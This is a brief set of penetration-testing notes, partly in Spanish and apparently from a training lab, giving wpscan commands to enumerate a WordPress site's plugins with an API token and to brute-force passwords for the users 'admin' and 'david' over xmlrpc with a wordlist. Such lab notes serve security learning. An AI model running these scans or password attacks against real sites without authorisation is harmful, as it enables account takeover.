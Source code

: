 


## Plugins Attacks

```
wpscan --enumerate --url http://94.237.54.192:42355/ --api-token <token>
```

el token se consigue teniendo una cuenta en https://wpscan.com/register


## User Attacks

```shell-session
wpscan --password-attack xmlrpc -t 20 -U admin, david -P passwords.txt --url http://blog.inlanefreight.com
```



